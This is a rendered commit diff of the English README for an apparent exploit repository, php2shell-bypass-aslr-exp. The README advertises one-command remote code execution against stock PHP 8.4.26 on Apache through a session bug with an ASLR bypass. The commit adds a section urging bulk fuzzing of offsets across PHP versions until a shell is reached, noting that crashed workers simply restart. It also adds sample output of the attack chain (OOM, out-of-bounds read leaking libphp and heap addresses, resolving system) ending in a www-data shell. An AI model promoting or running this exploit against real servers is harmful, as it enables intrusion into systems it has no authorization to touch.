

Before and after one commit to 0xh34z/php2shell-bypass-aslr-exp, a Markdown page: readme_en.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
README: show the live exploit chain in Quick start
- print the A1 -> B1 -> A2/B2 -> RCE output in the quick-start comments
- sync readme_en with the official-environment intro and general-exploitation note

````diff
--- a/readme_en.md
+++ b/readme_en.md
@@ -1,19 +1,28 @@
-# php2shell — PHP 8.4.26 session vulnerability reproduction
+# php2shell - Official environment, no `display_errors` needed, `memory_limit` untouched
 
 [中文](README.md) | English
 
-**The target has not changed: stock official `php:8.4.26-apache` with the
-official `php.ini-production` — `display_errors=Off`,
-`display_startup_errors=Off`, `memory_limit=128M`, `post_max_size=8M`,
-single-worker prefork.** Under the constraints of being fully remote,
-HTTP-only, with the target page containing only `<?php echo "OK\n"; ?>`
-and no PHP written on the target side, one command reaches RCE:
+**Single-worker prefork.** In a fully remote, HTTP-only setting, with only
+`<?php echo "OK\n"; ?>` on the target page and no PHP written on the target
+side, one command reaches RCE:
 
 - stock official image + official ini: **5/5**
 - the same official build with symbols (gdb used only for offline
   calibration, never on the delivery path): **15/15**
 - about 2 seconds per run, the worker is not restarted, the target ini is
   left untouched
+
+# General exploitation
+
+In principle, once you compute the offsets for every PHP version and fuzz
+with them in bulk, one of those fuzz runs will eventually reach RCE.
+Besides, a crashed worker restarts anyway, so there is no fear of knocking
+the target offline.
+
+As for workers: a single worker does not affect whether the exploit works,
+only the success rate. In the test environment we temporarily use a single
+worker to show it off; the full official worker setup will be released
+later.
 
 ## Quick start (official php.ini-production / display_errors=Off / 128M)
 
@@ -31,6 +40,12 @@ cd php2shell-bypass-aslr-exp
 
 # 2) One command: A1 -> B1 leak -> A2 -> B2 -> id
 python3 pure/pwn_pure.py --port 18110
+# [try 1] A1: END-cleanup send_cookie OOM
+# [try 1] B1: stale-id OOB read (chunk base + libphp)
+#       decoded=819208 zval_ptr_dtor=0x7fe00ef5db60 -> libphp=0x7fe00e8ff000
+#       chunk buckets: [('0x7fe00c600000', 7495), ('0x7fe00ee00000', 1095),
+#                       ('0x7fe00cc00000', 87), ('0x7fe00c400000', 79)]
+# [try 1] A2 + B2: main=0x7fe00cc00000 S=0x7fe00ccf8398 zif_system=0x7fe00ed64370
 # [4/4] RCE OK; proof .../out/p1:
 # uid=33(www-data) gid=33(www-data) groups=33(www-data)
 ```
````
Also changed, not shown: README.md (+14 -5 lines).
